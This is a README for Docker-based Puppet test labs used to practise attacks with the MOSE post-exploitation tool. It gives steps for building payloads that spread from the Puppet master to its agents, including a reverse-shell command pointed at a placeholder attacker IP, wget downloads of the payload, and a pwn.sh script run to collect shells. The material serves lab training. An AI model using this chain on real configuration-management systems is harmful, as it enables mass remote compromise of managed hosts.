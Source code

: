 # puppet-test-lab
Create test labs which can be used to play around with MOSE and Puppet.

**Warning, take heed: This lab should be run in a controlled environment, as it contains vulnerable assets.**

## Dependencies
You must download and install the following for this environment to work:
* [Docker](https://docs.docker.com/install/)
* [Docker Compose](https://docs.docker.com/compose/install/)
* [Python 3](https://www.python.org/downloads/release/python-374/)

## Basic Lab Build Instructions
To create an environment with a Puppet Master that controls a single agent with a simple hello world module, run the following command:
```
cd basic && make run
```

To run MOSE against it:
1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t puppet`
3. Get it to the puppet master: `docker exec -it basic-puppetmaster wget http://YOURIPADDRESSGOESHERE:8080/puppet-linux`
4. Exec into the puppet master: `docker exec -it basic-puppetmaster bash`
5. Run the payload: `chmod +x puppet-linux; ./puppet-linux`
6. Wait for 30 minutes or exec into one of the agents and kick off the payload manually: `docker exec -it basic-puppetagent bash` and then run `puppet agent -t`
7. For this example, you should note that a file has been created in `/tmp` in the basic-puppetagent container, as we specified in step 2.


To tear down the basic lab, run the following command:
```
make destroy
```

## Mass Agent Lab Build Instructions
To create an environment with a Puppet Master that controls n number of agents, start by specifying the number of agents to create:
1. Open mass_puppet.py
2. Change `number_agents` to your desired number of agents. The counter starts at 2, so 21 agents actually yields 19.

Next, run the following command to stand up the environment:
```
cd mass_agents && make run
```

To run MOSE against the lab and get a ton of shells, do the following:
1. Build MOSE using `make build` in the MOSE repo
2. Download Platypus from here: https://github.com/WangYihang/Platypus/releases/tag/v1.1.0
3. Run Platypus using the instructions provided in the repo's README
4. Generate a payload with MOSE: `./mose -c "bash -i >& /dev/tcp/YOURIPADDRESSGOESHERE/8080 0>&1 &" -t puppet`
5. Get it to the puppet master: `docker exec -it massagents-puppetmaster wget http://YOURIPADDRESSGOESHERE:8080/puppet-linux
6. Exec into the puppet master: `docker exec -it massagents-puppetmaster bash`
7. Run the payload: `chmod +x puppet-linux; ./puppet-linux`

Back on the attackers system, kick off the agents by running: 
```
bash pwn.sh
```

To tear down the mass agent lab, run the following command:
```
make destroy
```

## Extended Lab Build Instructions
To create an environment with a Puppet Master that controls a prod and dev environment that include a web application, a mysql database, and various package installs, run the following command:
```
cd extended && make run
```

To run MOSE against it:
1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t puppet`
3. Get it to the puppet master: `docker exec -it extended-puppetmaster wget http://YOURIPADDRESSGOESHERE:8090/puppet-linux`
4. Exec into the puppet master: `docker exec -it extended-puppetmaster bash`
5. Run the payload: `chmod +x puppet-linux; ./puppet-linux`
6. Wait for 30 minutes or exec into one of the agents and kick off the payload manually: `docker exec -it prodlaptop bash` and then run `puppet agent -t`
7. For this example, you should note that a file has been created in `/tmp` in the prodlaptop container, as we specified in step 2.

You can also target development systems by running `puppet agent -t --environment development` on the appropriate systems. 

This environment can be used for more interesting attack chains, such as targeted payloads specifically for the webservers, leveraging secrets to access a database, etc.

To tear down the extended lab, run the following command:
```
make destroy
```
